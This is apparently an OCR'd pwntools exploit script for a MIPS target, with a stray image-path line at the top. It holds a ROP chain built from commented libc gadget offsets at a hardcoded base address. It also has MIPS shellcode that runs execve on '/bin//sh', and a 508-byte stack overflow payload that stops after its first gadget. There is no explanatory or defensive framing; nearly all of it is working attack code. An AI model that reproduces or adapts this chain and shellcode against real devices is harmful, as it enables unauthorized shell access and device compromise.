 ```python
from pwn import *
# context.log_level = 'debug'
  
libc_base = 0x7f61f000
set_a0_addr = 0xE2660
#.text:000E2660                 move    $t9, $s2
#.text:000E2664                 jalr    $t9 ; sigprocmask
#.text:000E2668                 li      $a0, 1
set_s2_addr = 0xB2EE8
#.text:000B2EE8                 lw      $ra, 52($sp)
#.text:000B2EF0                 lw      $s6, 48($sp)
#.text:000B2EF4                 lw      $s5, 44($sp)
#.text:000B2EF8                 lw      $s4, 40($sp)
#.text:000B2EFC                 lw      $s3, 36($sp)
#.text:000B2F00                 lw      $s2, 32($sp)
#.text:000B2F04                 lw      $s1, 28($sp)
#.text:000B2F08                 lw      $s0, 24($sp)
#.text:000B2F0C                 jr      $ra
jr_t9_jr_ra = 0x949EC
# .text:000949EC                 move    $t9, $s3
# .text:000949F0                 jalr    $t9 ; uselocale
# .text:000949F4                 move    $s0, $v0
# .text:000949F8
# .text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
# .text:000949F8                 lw      $ra, 0x34($sp)
# .text:000949FC                 move    $v0, $s0
# .text:00094A00                 lw      $s3, 0x24+var_sC($sp)
# .text:00094A04                 lw      $s2, 0x24+var_s8($sp)
# .text:00094A08                 lw      $s1, 0x24+var_s4($sp)
# .text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
# .text:00094A10                 jr      $ra
addiu_a1_sp = 0x95B74
# .text:00095B74                 addiu   $a1, $sp, 52
# .text:00095B78                 sw      $zero, 24($sp)
# .text:00095B7C                 sw      $v0, 20($sp)
# .text:00095B80                 move    $a3, $s2
# .text:00095B84                 move    $t9, $s5
# .text:00095B88                 jalr    $t9
jr_a1 = 0x12568C
# .text:0012568C                 move    $t9, $a1
# .text:00125690                 move    $a3, $v0
# .text:00125694                 move    $a1, $a0
# .text:00125698                 jalr    $t9
sleep = 0xB8FC0

shellcode  = b""
shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1
shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962
shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f
shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)
shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873
shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e
shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)
shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)
shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc
shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1
shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab
shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404

pay =  b''
pay += b'a'*508
pay += p32(set_s2_addr+libc_base)
pay += b'b'*24
```